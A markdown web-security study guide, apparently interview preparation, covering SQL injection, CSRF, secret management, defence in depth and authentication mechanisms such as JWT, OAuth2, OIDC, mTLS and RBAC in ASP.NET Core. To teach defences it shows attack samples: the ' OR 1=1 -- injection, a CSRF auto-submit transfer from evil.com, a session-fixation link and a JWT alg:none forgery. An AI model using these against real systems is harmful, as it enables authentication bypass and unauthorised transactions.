

---

## SEC-D4 — SQL Injection Attack vs Defence

```mermaid
flowchart TD
    subgraph Attack["❌ SQL Injection Attack"]
        INPUT1["Input: ' OR 1=1 --"] --> CONCAT["String concat:\n\"SELECT * FROM Users WHERE Name = '\" + input + \"'\""]
        CONCAT --> EVIL["Executed SQL:\nSELECT * FROM Users WHERE Name = '' OR 1=1 --'"]
        EVIL --> RESULT1[🔓 Returns ALL users\nAuthentication bypassed!]
    end

    subgraph Defence["✅ Parameterised Query Defence"]
        INPUT2["Input: ' OR 1=1 --"] --> PARAM["EF LINQ / Parameters:\n_db.Users.Where(u => u.Name == input)"]
        PARAM --> SAFE["Generated SQL:\nSELECT * FROM Users WHERE Name = @p0\n@p0 = ''' OR 1=1 --' (literal string)"]
        SAFE --> RESULT2[✅ Returns 0 users\nAttack neutralised]
    end

    style RESULT1 fill:#f44336,color:#fff
    style RESULT2 fill:#4CAF50,color:#fff
```

---

## SEC-D5 — CSRF Attack vs SameSite Defence

```mermaid
sequenceDiagram
    participant A as Alice (victim)
    participant BANK as bank.com (trusted)
    participant EVIL as evil.com (attacker)

    A->>BANK: Login → session cookie set\nCookie: session=abc; HttpOnly
    A->>EVIL: Visit evil.com (attacker's site)

    rect rgb(255, 200, 200)
        note over EVIL,BANK: ❌ Without SameSite protection
        EVIL->>A: Hidden form that auto-submits\nPOST bank.com/transfer { to: hacker, amount: 10000 }
        A->>BANK: Browser auto-sends session cookie!
        BANK->>BANK: Valid session → executes transfer 💸
    end

    rect rgb(200, 255, 200)
        note over EVIL,BANK: ✅ With SameSite=Strict cookie
        EVIL->>A: Same hidden form auto-submits
        A->>BANK: Browser blocks cookie (cross-site request)
        BANK->>BANK: No session cookie → 401 Unauthorized ✅
    end
```

---

## SEC-D6 — Secret Management with Azure Key Vault

```mermaid
flowchart LR
    subgraph Bad["❌ Secrets in Code"]
        CODE["appsettings.json\n{ \"Jwt\": { \"Key\": \"secret123\" } }"]
        GIT[Git Repository] --> CODE
        ATTACKER[😈 Attacker reads repo\n= has all secrets]
        CODE --> GIT
        GIT --> ATTACKER
    end

    subgraph Good["✅ Azure Key Vault + Managed Identity"]
        APP[.NET Application] -->|DefaultAzureCredential\nNo passwords in code| KV[Azure Key Vault]
        KV -->|returns secret at runtime| APP
        MI[Managed Identity\nassigned to App Service] -->|authenticates| KV
        APP --> MI
    end

    style ATTACKER fill:#f44336,color:#fff
    style KV fill:#4CAF50,color:#fff
    style MI fill:#2196F3,color:#fff
```

---

## SEC-D7 — Defense in Depth

```mermaid
flowchart TD
    ATTACKER["😈 Attacker / Malicious Request"] --> WAF

    WAF["Layer 1: WAF (Web Application Firewall)\nBlocks: SQLi patterns, XSS payloads,\nknown attack signatures, IP blacklists"]
    WAF -->|passes| RATELIMIT

    RATELIMIT["Layer 2: Rate Limiting & DDoS Protection\nBlocks: brute force, credential stuffing,\nrequest floods (429 Too Many Requests)"]
    RATELIMIT -->|passes| AUTHN

    AUTHN["Layer 3: Authentication\nVerifies identity: JWT, OAuth2, mTLS\nBlocks: unauthenticated requests (401)"]
    AUTHN -->|passes| AUTHZ

    AUTHZ["Layer 4: Authorization\nChecks permissions: RBAC, policy claims\nBlocks: insufficient privileges (403)"]
    AUTHZ -->|passes| INPUT

    INPUT["Layer 5: Input Validation\nParameterized queries, model validation\nBlocks: SQL injection, XSS, oversized payloads"]
    INPUT -->|passes| ENCRYPT

    ENCRYPT["Layer 6: Encryption at Rest & in Transit\nTLS 1.3 in transit, AES-256 at rest\nProtects: data even if storage is breached"]
    ENCRYPT -->|passes| AUDIT

    AUDIT["Layer 7: Audit Logging & Monitoring\nSIEM alerts, anomaly detection\nDetects: breaches that bypassed other layers"]

    AUDIT --> DATA["✅ Protected Data\nAttacker must defeat ALL layers"]

    style ATTACKER fill:#f44336,color:#fff
    style WAF fill:#ff7043,color:#fff
    style RATELIMIT fill:#ff8f00,color:#fff
    style AUTHN fill:#fdd835,color:#333
    style AUTHZ fill:#7cb342,color:#fff
    style INPUT fill:#26a69a,color:#fff
    style ENCRYPT fill:#1e88e5,color:#fff
    style AUDIT fill:#5e35b1,color:#fff
    style DATA fill:#2e7d32,color:#fff
```


---

# 🔑 Authentication & Authorization — Complete Mechanisms Guide

> Covers every major auth mechanism end-to-end: sessions, JWT, OAuth2, OIDC, API keys, mTLS, SSO/SAML, RBAC/ABAC, ASP.NET Core pipeline, and Zero Trust.

---

## Q1. What is the core difference between Authentication and Authorization?

> 📚 Reference: https://learn.microsoft.com/en-us/aspnet/core/security/

**Authentication (AuthN)** — *Who are you?* Proves identity. You present a credential (password, token, certificate) and the system verifies it.  
**Authorization (AuthZ)** — *What can you do?* Proves permission. After identity is established, the system checks what that identity is allowed to do.

AuthN always runs first. AuthZ makes no sense without a verified identity.



---

## Q2. How does session-based authentication work and what are its security requirements?

> 📚 Reference: https://owasp.org/www-community/attacks/Session_fixation

In session-based auth the server is stateful — it stores session data (user ID, roles, expiry) in server memory or a distributed store like Redis. The client holds only an opaque session ID in a cookie.

**Flow:**

```mermaid
sequenceDiagram
    participant U as User (Browser)
    participant S as Server
    participant R as Redis

    U->>S: POST /login { username, password }
    S->>S: Verify credentials
    S->>R: SET session:abc123 { userId:1, roles:[Admin] } EX 3600
    S-->>U: Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict

    U->>S: GET /dashboard (Cookie: sessionId=abc123)
    S->>R: GET session:abc123 → { userId:1, roles:[Admin] }
    S-->>U: 200 OK — dashboard data
```

**Session Fixation Attack** — attacker tricks user into using a session ID the attacker already knows:

❌ **Vulnerable** — session ID issued before login, reused after:
```csharp
// Attacker sends victim: https://app.com/login?sessionId=ATTACKER_KNOWN_ID
// Server sets session with that ID and victim logs in
// Attacker now shares the victim's authenticated session
HttpContext.Session.SetString("userId", userId.ToString()); // reusing pre-login session
```

✅ **Prevention** — always regenerate session ID after authentication:
```csharp
// ASP.NET Core: clear old session and issue a new one on login
HttpContext.Session.Clear();
await HttpContext.SignInAsync(principal); // issues new authenticated session

// Cookie must always be:
options.Cookie.HttpOnly = true;   // JS cannot read it — prevents XSS theft
options.Cookie.Secure   = true;   // HTTPS only — prevents network sniffing
options.Cookie.SameSite = SameSiteMode.Strict; // blocks CSRF cross-origin requests
```

| Cookie attribute | Without it | With it |
|-----------------|-----------|---------|
| `HttpOnly` | XSS can read `document.cookie` | JS cannot access the cookie |
| `Secure` | Cookie sent over HTTP → sniffed | Cookie only sent over HTTPS |
| `SameSite=Strict` | Cookie sent in cross-site requests → CSRF | Cookie blocked on cross-origin requests |

---

## Q3. Explain JWT structure, signing algorithms, and its major vulnerabilities.

> 📚 Reference: https://jwt.io/ · https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html

### Structure

A JWT is three base64url-encoded JSON objects joined by dots:

```
Header.Payload.Signature

eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9        ← Header
.eyJzdWIiOiIxMjMiLCJlbWFpbCI6ImFsaWNlQHRlc3QuY29tIiwiZXhwIjoxNzM1Njg5NjAwfQ==  ← Payload
.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c  ← Signature

Header:  { "alg": "RS256", "typ": "JWT" }
Payload: { "sub": "123", "email": "alice@test.com", "roles": ["Admin"], "exp": 1735689600 }
```

JWT is **signed, not encrypted**. The payload is readable by anyone who base64-decodes it. Never put secrets, passwords, or PII in a JWT payload.

### Signing algorithms

| Algorithm | Type | Secret | Use when |
|-----------|------|--------|----------|
| HS256 | Symmetric HMAC | Single shared secret | All components are internal and trust the same secret |
| RS256 | Asymmetric RSA | Private key signs, public key verifies | Multiple services verify tokens; public key can be distributed |
| ES256 | Asymmetric EC | Smaller keys than RS256 | Same as RS256 but prefer smaller payloads |

### Access token + Refresh token pattern



❌ **Vulnerable patterns:**
```js
// Storing JWT in localStorage — XSS can steal it
localStorage.setItem("token", jwt);

// Using alg:none — no signature verification
// Attacker crafts: { "alg": "none" } + { "roles": ["Admin"] } + empty signature
// Old libraries accepted this and granted Admin access without any secret
```

✅ **Secure patterns:**
```csharp
// Access token lives in JS memory only (not localStorage, not cookie)
// Refresh token in HttpOnly Secure SameSite=Strict cookie

// Server: whitelist only the algorithm you expect
options.TokenValidationParameters = new TokenValidationParameters
{
    ValidAlgorithms          = new[] { SecurityAlgorithms.RsaSha256 }, // HS256 accepted only if expected
    ValidateIssuerSigningKey = true,
    ValidateIssuer           = true,
    ValidateAudience         = true,
    ValidateLifetime         = true,
    ClockSkew                = TimeSpan.FromSeconds(30) // small tolerance only
};
```

---

## Q4. Explain OAuth 2.0 and all four grant types. When do you use each?

> 📚 Reference: https://oauth.net/2/ · https://www.rfc-editor.org/rfc/rfc6749

OAuth 2.0 is a **delegation framework** — it lets a user (Resource Owner) grant a third-party app (Client) limited access to their data on another service (Resource Server) without sharing their password.

### Grant Types

| Grant Type | Who uses it | When to use |
|-----------|------------|-------------|
| Authorization Code + PKCE | Public/confidential clients (web, SPA, mobile) | User-facing login — the only grant to use for new apps |
| Client Credentials | Machine-to-machine (no user) | Background services, microservice-to-microservice |
| Resource Owner Password | Legacy (user gives password directly to client) | **Avoid** — defeats the purpose of OAuth |
| Implicit | SPAs (deprecated, replaced by Auth Code + PKCE) | **Do not use** — tokens in URL fragment, no refresh |

### Authorization Code + PKCE Flow (the most important)

PKCE (Proof Key for Code Exchange) prevents authorization code interception attacks. Required for all public clients (SPAs, mobile apps).



---

## Q5. What is OpenID Connect (OIDC) and how does it extend OAuth2?

> 📚 Reference: https://openid.net/connect/ · https://learn.microsoft.com/en-us/azure/active-directory/develop/v2-protocols-oidc

OAuth 2.0 handles **authorization** (access to resources). OIDC adds an **identity layer** on top — it answers "who is the user?" not just "what can they access?".

| Token | Purpose | Format |
|-------|---------|--------|
| Access token | Authorize API calls | Opaque or JWT |
| ID token | Authenticate user (who they are) | Always JWT |
| Refresh token | Obtain new access/ID tokens | Opaque |

**Key OIDC additions:**

- **ID token** — JWT with identity claims (`sub`, `email`, `name`)
- **UserInfo endpoint** — `GET /userinfo` with access token returns user claims
- **Discovery document** — `GET /.well-known/openid-configuration` returns all endpoints, signing keys, supported scopes
- **Standard claims**: `sub` (subject/user ID), `iss` (issuer URL), `aud` (audience/client), `exp` (expiry), `iat` (issued at)



---

## Q6. How does API Key authentication work and what are the security requirements?

> 📚 Reference: https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html

An API key is a static or rotatable shared secret that identifies a calling application (not a user). Common for server-to-server integrations and public APIs.

**Best practices:**

| Practice | Detail |
|----------|--------|
| Transport | Header only — never query string (logs, browser history, referrer headers expose it) |
| Storage | Secrets manager (Azure Key Vault, AWS Secrets Manager) — never in source code or config files |
| Scope | Issue per-client, per-scope keys — least privilege |
| Rotation | Keys must be rotatable without downtime (two valid keys during transition) |
| Hashing | Store hash of key in DB, not the plaintext (same principle as passwords) |

❌ **Insecure:**
```bash
# API key in query string — appears in server logs, browser history, referrer header
GET https://api.example.com/data?api_key=sk_live_abc123

# API key hardcoded in source code
const apiKey = "sk_live_abc123"; // in Git forever
```

✅ **Secure:**
```csharp
// API key in header — not logged by default
GET https://api.example.com/data
X-API-Key: sk_live_abc123

// ASP.NET Core — validate API key from header
public class ApiKeyMiddleware
{
    public async Task InvokeAsync(HttpContext context)
    {
        if (!context.Request.Headers.TryGetValue("X-API-Key", out var key))
        { context.Response.StatusCode = 401; return; }

        var storedHash = await _secrets.GetApiKeyHashAsync(); // from Key Vault
        if (!BCrypt.Verify(key, storedHash))
        { context.Response.StatusCode = 403; return; }

        await _next(context);
    }
}
```

---

## Q7. When is Basic Auth acceptable and what are the rules?

> 📚 Reference: https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication

Basic Auth sends credentials as `Authorization: Basic base64(username:password)`. Base64 is **not encryption** — it is trivially reversible. Basic Auth is only safe when:

1. The connection is **always HTTPS** (TLS encrypts the header)
2. Used for **internal tooling, CI/CD systems, or simple service-to-service** calls where OAuth2 is impractical
3. Passwords are **strong and not shared**

Digest Auth uses a challenge-response hash (MD5 by default) — avoids sending plaintext credentials but MD5 is weak and it doesn't prevent MITM if not on HTTPS. Not recommended for new systems.

❌ **Never acceptable:**
```bash
# Basic Auth over plain HTTP — base64 decoded in transit by any observer
curl http://api.internal.com/data -u "admin:password123"
```

✅ **Acceptable use:**
```csharp
// HTTPS only, internal health-check dashboard
app.MapHealthChecks("/health/detail", new HealthCheckOptions { ... })
   .RequireAuthorization("BasicAuthPolicy");

// Or simple service credentials over HTTPS in headers
services.AddHttpClient("InternalService", client =>
{
    var credentials = Convert.ToBase64String(Encoding.UTF8.GetBytes("svc_user:strong_random_pwd"));
    client.DefaultRequestHeaders.Authorization =
        new AuthenticationHeaderValue("Basic", credentials);
    // credential stored in Key Vault, retrieved at startup — never in appsettings
});
```

---

## Q8. What is Mutual TLS (mTLS) and when should you use it?

> 📚 Reference: https://www.cloudflare.com/learning/access-management/what-is-mutual-tls/

In standard TLS the client verifies the server's certificate. In **mTLS both sides present and verify certificates** — the server proves its identity to the client AND the client proves its identity to the server.

**Use cases:**

| Use case | Why mTLS fits |
|----------|--------------|
| Service mesh (Istio, Linkerd) | Every pod has a certificate — automatic zero-trust service identity |
| B2B APIs | Partner proves identity via certificate — no shared secrets needed |
| Zero-trust internal APIs | Replace VPN — verify every caller regardless of network |
| IoT devices | Device certificate proves authenticity at the TLS layer |

**Certificate pinning** — client rejects any certificate not matching a known fingerprint, preventing MITM even with a compromised CA. Used in mobile apps for high-security APIs.



---

## Q9. Compare RBAC, ABAC, PBAC, and ReBAC authorization models.

> 📚 Reference: https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html · https://www.openpolicyagent.org/

### Models at a glance

| Model | Full name | Decision basis | Best for |
|-------|-----------|---------------|----------|
| RBAC | Role-Based Access Control | User's assigned roles | Simple apps, clear role boundaries |
| ABAC | Attribute-Based Access Control | Attributes of user, resource, environment | Fine-grained, context-aware policies |
| PBAC | Policy-Based Access Control | Centralized policy rules (OPA, Casbin) | Complex orgs, auditable central policy |
| ReBAC | Relationship-Based Access Control | Relationships between entities (Google Zanzibar) | Collaborative apps (Docs, GitHub) |

**RBAC hierarchy:**



**ABAC example** — policy: user can read document only if `user.department == document.department AND user.clearance >= document.classification`:

```csharp
// ABAC: evaluated at request time against attributes
bool CanRead(User user, Document doc) =>
    user.Department == doc.Department &&
    user.ClearanceLevel >= doc.ClassificationLevel;
```

**PBAC with OPA** — policies live in `.rego` files, evaluated by a sidecar:

```rego
# policy.rego
allow {
    input.method == "GET"
    input.user.roles[_] == "orders:read"
    input.resource.owner_dept == input.user.department
}
```

❌ **Hardcoded role checks scattered in controllers:**
```csharp
// Every controller action has its own ad-hoc logic — impossible to audit
if (User.IsInRole("Admin") || User.IsInRole("Manager") || userId == resourceOwnerId)
    return Ok(data);
```

✅ **Centralized policy-based authorization:**
```csharp
// Policy defined once, reused everywhere
builder.Services.AddAuthorization(options =>
{
    options.AddPolicy("CanReadOrders", policy =>
        policy.AddRequirements(new SameDepartmentRequirement("orders:read")));
});

// Handler encapsulates all logic
public class SameDepartmentHandler : AuthorizationHandler<SameDepartmentRequirement, Order>
{
    protected override Task HandleRequirementAsync(
        AuthorizationHandlerContext ctx, SameDepartmentRequirement req, Order order)
    {
        var userDept = ctx.User.FindFirstValue("department");
        if (ctx.User.HasClaim("permissions", req.RequiredPermission) &&
            userDept == order.Department)
            ctx.Succeed(req);
        return Task.CompletedTask;
    }
}

// Controller stays clean
[Authorize(Policy = "CanReadOrders")]
public IActionResult GetOrder(int id) => Ok(_repo.Get(id));
```

---

## Q10. Walk through the ASP.NET Core authentication and authorization pipeline.

> 📚 Reference: https://learn.microsoft.com/en-us/aspnet/core/security/authorization/introduction

```mermaid
flowchart TD
    REQ[Incoming HTTP Request] --> AUTH_MW[UseAuthentication middleware\nReads token/cookie → calls IAuthenticationHandler]
    AUTH_MW --> CLAIMS[Set HttpContext.User\nas ClaimsPrincipal with claims]
    CLAIMS --> AUTHZ_MW[UseAuthorization middleware\nChecks [Authorize] attributes / endpoint metadata]
    AUTHZ_MW --> POLICY{Evaluate policy\nIAuthorizationService}
    POLICY -- All requirements met --> HANDLER[Execute controller action]
    POLICY -- Requirement failed --> FORBIDDEN[403 Forbidden / 401 Unauthorized]
    HANDLER --> RESP[HTTP Response]
```

**Registration order matters — UseAuthentication MUST come before UseAuthorization:**

```csharp
// Program.cs — correct order
app.UseRouting();
app.UseAuthentication();   // 1. Who are you? — populates User
app.UseAuthorization();    // 2. What can you do? — checks User against policy
app.MapControllers();
```

**Claims-based identity** — the `ClaimsPrincipal` is a collection of `ClaimsIdentity` objects, each a collection of `Claim` (type + value pairs). Policies, roles, and custom handlers all read from claims.

**Custom policy requirement — the right pattern:**

❌ **Role-based if/else in controllers:**
```csharp
[HttpDelete("{id}")]
public IActionResult Delete(int id)
{
    if (!User.IsInRole("Admin") && !User.IsInRole("Manager"))
        return Forbid();
    if (User.IsInRole("Manager") && GetOrder(id).Amount > 50_000)
        return Forbid(); // business rule buried in controller
    _repo.Delete(id);
    return NoContent();
}
```

✅ **Policy with custom requirement handler:**
```csharp
// Requirement (data class)
public class DeleteOrderRequirement : IAuthorizationRequirement
{
    public decimal MaxAmountForManager { get; } = 50_000;
}

// Handler (all logic in one place, testable in isolation)
public class DeleteOrderHandler : AuthorizationHandler<DeleteOrderRequirement, Order>
{
    protected override Task HandleRequirementAsync(
        AuthorizationHandlerContext ctx,
        DeleteOrderRequirement req,
        Order order)
    {
        if (ctx.User.IsInRole("Admin"))
        { ctx.Succeed(req); return Task.CompletedTask; }

        if (ctx.User.IsInRole("Manager") && order.Amount <= req.MaxAmountForManager)
        { ctx.Succeed(req); return Task.CompletedTask; }

        return Task.CompletedTask; // ctx.Fail() optional — leaves door open for other handlers
    }
}

// Controller — zero business logic
[HttpDelete("{id}")]
public async Task<IActionResult> Delete(int id)
{
    var order = _repo.Get(id);
    var authResult = await _authService.AuthorizeAsync(User, order, "DeleteOrder");
    if (!authResult.Succeeded) return Forbid();
    _repo.Delete(id);
    return NoContent();
}
```

---

## Q11. How does Single Sign-On (SSO) work and what is SAML?

> 📚 Reference: https://developer.okta.com/docs/concepts/saml/ · https://www.cloudflare.com/learning/access-management/what-is-sso/

**SSO** lets a user authenticate once with an **Identity Provider (IdP)** and gain access to multiple **Service Providers (SPs)** without re-entering credentials. The IdP (e.g., Okta, Azure AD, Ping) is the single source of truth for identity.

**SAML 2.0** is the XML-based SSO standard used in enterprise. The IdP issues a signed **SAML assertion** (XML document) that the SP validates to grant access. OIDC is the modern equivalent used for web/mobile.

| Feature | SAML 2.0 | OIDC |
|---------|----------|------|
| Format | XML | JSON / JWT |
| Transport | HTTP POST / Redirect | HTTP redirect + token endpoint |
| Age | 2005 | 2014 |
| Mobile/SPA | Poor | Native |
